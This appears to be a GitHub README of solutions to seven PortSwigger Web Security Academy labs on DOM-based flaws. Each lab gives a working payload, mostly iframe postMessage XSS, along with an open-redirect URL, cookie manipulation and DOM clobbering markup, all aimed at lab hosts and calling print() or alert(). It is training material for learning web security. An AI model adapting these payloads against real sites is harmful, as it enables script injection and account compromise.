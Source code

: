 
![Logo](https://github.com/cyber-insect99/photo-gallery-/blob/main/Blue%20Gradient%20Modern%20LinkedIn%20Banner.jpg?raw=true)
# DOM-based vulnerabilities
## [Lab-1](https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages)
### [Lab-2](https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages-and-a-javascript-url)
# [Lab-3](https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages-and-json-parse)
[Lab-4](https://portswigger.net/web-security/dom-based/open-redirection/lab-dom-open-redirection)
[Lab-5](https://portswigger.net/web-security/dom-based/cookie-manipulation/lab-dom-cookie-manipulation)
[Lab-6](https://portswigger.net/web-security/dom-based/dom-clobbering/lab-dom-xss-exploiting-dom-clobbering)
[Lab-7](https://portswigger.net/web-security/dom-based/dom-clobbering/lab-dom-clobbering-attributes-to-bypass-html-filters)







## Lab-1  , DOM XSS using web messages

This lab demonstrates a simple web message vulnerability. To solve this lab, use the exploit server to post a message to the target site that causes the print() function to be called.
- Go to the exploit server

```bash
  <iframe src="https://0aad00a403ef4bdf809e85bb002400ca.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">

```
![Logo](https://github.com/cyber-insect99/photo-gallery-/blob/main/portswigger%20lab.png?raw=true)

## Lab-2  , DOM XSS using web messages and a JavaScript URL

Go to the exploit server

```bash
  <iframe src="https://0a7300ab04ade806808f671e000300ee.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//http:','*')"></iframe>

```
## Lab-3  , DOM XSS using web messages and JSON.parse

Go to the exploit server

```bash
  <iframe src=https://0aa000730357be3b8085a37700830016.web-security-academy.net/ onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>

```

## Lab-4  , DOM-based open redirection

Go to the Browser

```bash
https://0a3d009f041d7ba480b4088200c800c6.web-security-academy.net/post?postId=2&url=https://exploit-0a46008a047d7bb3808f07e7016200cf.exploit-server.net/

```
[YouTube video ](https://www.youtube.com/watch?v=pwM8cr_30hg)

## Lab-5  , DOM-based cookie manipulation

Go to the exploit server

```bash
 <iframe src="https://0ac2000304106e2d8031df12004800e4.web-security-academy.net/product?productId=11&'><script>print()</script>" onload="if(!window.x)this.src='https://0ac2000304106e2d8031df12004800e4.web-security-academy.net';window.x=1;"></iframe>

```
[YouTube video ](https://www.youtube.com/watch?v=pk3KjtoLMTc)


## Lab-6  , Exploiting DOM clobbering to enable XSS

Go to the exploit server

```bash
 <a id=defaultAvatar><a id=defaultAvatar name=avatar href="cid:&quot;onerror=alert(1)//">
```
[YouTube video ](https://www.youtube.com/watch?v=INUvcWQ3Pmc)


## Lab-7  , Clobbering DOM attributes to bypass HTML filters

Go to the exploit server

```bash
 <form id=x tabindex=0 onfocus=print()><input id=attributes>
<iframe 

```

```bash
 src=https://0a71004004c1f848800fbc6e005100fe.web-security-academy.net/post?postId=10 onload="setTimeout(()=>this.src=this.src+'#x',500)">

```
[YouTube video ](https://www.youtube.com/watch?v=34TB5FfNlko)





